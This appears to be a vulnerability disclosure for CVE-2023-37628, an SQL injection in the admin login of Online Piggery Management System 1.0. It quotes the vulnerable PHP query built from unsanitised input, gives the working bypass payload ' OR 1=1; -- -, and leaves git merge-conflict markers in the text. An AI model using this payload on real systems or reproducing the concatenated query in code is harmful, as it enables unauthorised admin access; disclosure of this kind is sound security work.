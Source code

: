 # CVE-2023-37628

```
Product : Online Piggery Management System - 1.0
Vulnerability Type : SQL Injection
Vendor of Product : Create Network NG

Desc : An attacker can bypass the admin panel through SQL injection
```

## Vulnerable Code

```php
// file : index.php
...
$username = trim($_POST['username']);
$password = $_POST['password'];
$hash = sha1($password);

$q = $db->query("SELECT * FROM admin WHERE username = '$username' AND password = '$hash' LIMIT 1 ");
...
```

# POC

Admin login panel can be bypassed by giving the "username" as `' OR 1=1; -- -`.

```SQL
SELECT * FROM admin WHERE username = '' OR 1=1; -- -'' AND password = 'PWNED' LIMIT 1
```
<<<<<<< HEAD
When logging with the uasename `' OR 1=1; -- -` , we get a 302 redirect to "dashboard.php" indicating that we have bypasswd the admin login.
=======
When logging with the username `' OR 1=1; -- -` , we get a 302 redirect to "dashboard.php" indicating that we have bypasswd the admin login.
>>>>>>> refs/rewritten/main
![sqli](sqli.png)
